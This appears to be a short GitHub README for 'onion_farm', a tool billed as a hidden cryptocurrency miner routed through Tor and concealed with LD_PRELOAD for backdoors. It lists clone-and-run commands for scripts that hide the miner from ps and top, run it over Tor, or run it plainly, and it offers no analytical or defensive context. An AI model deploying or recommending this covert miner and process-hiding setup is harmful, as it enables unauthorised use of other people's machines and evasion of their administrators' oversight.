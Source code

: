 # onion_farm
Hidden miner via tor and under ld.preload for backdoors

```
git clone https://github.com/0x-raafet/onion_farm.git ; cd onion_farm/ ; chmod +x *
```
cover the miner and hide from ps & top
```
./hidsetup.sh
```
tor miner
```
./tormd.sh
```
normal miner
```
./mine.sh
```

